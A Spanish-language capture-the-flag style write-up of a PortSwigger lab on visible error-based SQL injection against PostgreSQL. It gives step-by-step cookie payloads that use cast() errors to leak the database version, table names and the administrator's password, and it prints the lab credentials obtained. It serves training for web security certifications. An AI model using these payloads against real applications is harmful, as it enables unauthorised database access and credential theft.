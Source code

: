 ```yaml
---
title: SQLI Lab 13
date: 2025-02-09 12:26:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - Visible error-based SQL injection
  - PostgreSQL
image:
  path: /assets/img/SQLI-Lab-13/Portswigger.png
---
```


## Skills

- Visible error-based SQL injection

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL`. La aplicación utiliza una `cookie` de seguimiento para análisis y `ejecuta` una `consulta SQL` que incluye el valor de la cookie enviada, los resultados de la `consulta SQL` no se devuelven. La `base` de `datos` contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el `laboratorio`, hay que `encontrar` una forma de `filtrar` la `contraseña` del usuario `administrador` y luego `iniciar sesión` en su cuenta

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-13/image_1.png)

Si `capturamos` la `petición` a la web con `Burpsuite` vemos un campo llamado `TrackingId`

![](/assets/img/SQLI-Lab-13/image_2.png)

Si enviamos una petición normal a la web no notaremos nada extraño, sin embargo, si añadimos una `'` al en el campo `TrackingId` nos arrojará un `error`, esto quiere decir que podemos hemos logrado `interferir` en la `consulta SQL` que se está tramitando. Esto se debe a que la consulta que se está haciendo por detrás es la siguiente

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

![](/assets/img/SQLI-Lab-13/image_3.png)

Si en el campo cookie efectuamos esta inyección `' or 1=1-- - `, también funcionaría usar `' and 1=1-- - `, de esta forma evitamos `comentar` la `query` y estamos `concatenando` nuestra `query` con la `existente` . El `error` ya no aparece, esto es debido a que ya no se está produciendo ese error. Para obtener el número de columnas existentes usamos un `order by`, en este caso sabemos que hay una columna, debido a que si hacemos `order by 2` o superior nos arroja un error

```
Cookie: TrackingId=Fd4cX7VWOdC0tTy9'+order+by+1--+-+; session=XpgULc3syYJ6d1XZ2KtzCym9QtW2VDgn
```

`Descartamos` que se esté empleando `Oracle`, debido a que `no ha arrojado ningún error`, si fuera Oracle nos arrojaría un error debido a que haría falta añadir `from dual`

```
Cookie: TrackingId=Fd4cX7VWOdC0tTy9'+union+select+null--+-+; session=XpgULc3syYJ6d1XZ2KtzCym9QtW2VDgn
```

Si `listamos` la `versión` de la `base` de `datos` con `@@version` nos da un `error`, por lo tanto también podemos `descartar` las bases de datos `MySQL` y `Microsoft`. Al probar con `version()` nos `devuelve` un `200 OK` lo que quiere decir que no ha producido ningún error y por lo tanto, estamos ante `PostgreSQL`

```
Cookie: TrackingId='+union+select+version()--+-+; session=4t32wyejFSosLimiWeBWotzdpQskYvmg
```

He probado a verificar si había alguna diferencia entre usar `or` y `and` en consultas como `' or (select 'a')='b'-- - ` y no hay diferencia alguna. Independientemente del operador utilizado al comparar dos strings, da igual que no sean iguales, no nos arroja ningún error. Por lo tanto no vamos a poder utilizar `substr()`, o `length()` para obtener la longitud y posteriormente bruteforcear carácter por carácter. Si nos fijamos bien `ha cambiado el error que se mostraba anteriormente` al usar este `payload`

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+cast((select+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_4.png)

Para que no se produzca el error podemos simplemente añadir 1=

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

Comprobamos que se ve reflejado en la respuesta el input introducido

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+'testing')+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_5.png)

Una vez hecho esto ya podemos ver el `output` que se produce al `listar` la `version` de al `base` de `datos` modificando el `payload` anterior

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+version())+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_6.png)

Hemos tenido que `borrar caracteres` debido a que hay un `límite máximo de caracteres`, si nos pasamos de 60 caracteres la consulta no se llevará a cabo. Por esta misma razón no podemos listar tablas ni bases de datos, la única opción para para enumerar tablas que se me ocurre es efectuar un `Cluster bomb` y `bruteforcear` el `nombre` de las `tablas` para la `base de datos actual` usando este `payload`. El primer `payload` serían las `letras` de la `a-z` y el segundo sería un `diccionario` con el `nombre` de `tablas`

```
Cookie: TrackingId='+and+1=cast((select+'a'+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

`Si la tabla existe nos responderá con este mensaje`, una vez encontrada una tabla existente podemos `bruteforcear` el `nombre` de las `columnas` con un `ataque` de `tipo Sniper`

![](/assets/img/SQLI-Lab-13/image_7.png)

Por el contrario `si la tabla no existe nos responderá con este otro mensaje`, de esta forma, si nos fijamos en el `Content-Length` podremos saber si existe o no

![](/assets/img/SQLI-Lab-13/image_8.png)

`Obtenemos` el `nombre` de `usuario`

```
Cookie: TrackingId='+and+1=cast((select+username+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_9.png)

`Obtenemos` la `contraseña` del usuario `administrador`

```
Cookie: TrackingId='and+1=cast((select+password+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_10.png)

Nos `logueamos` con las credenciales `administrador:865232i99b9ovbdp8kvn`

![](/assets/img/SQLI-Lab-13/image_11.png)

![](/assets/img/SQLI-Lab-13/image_12.png)
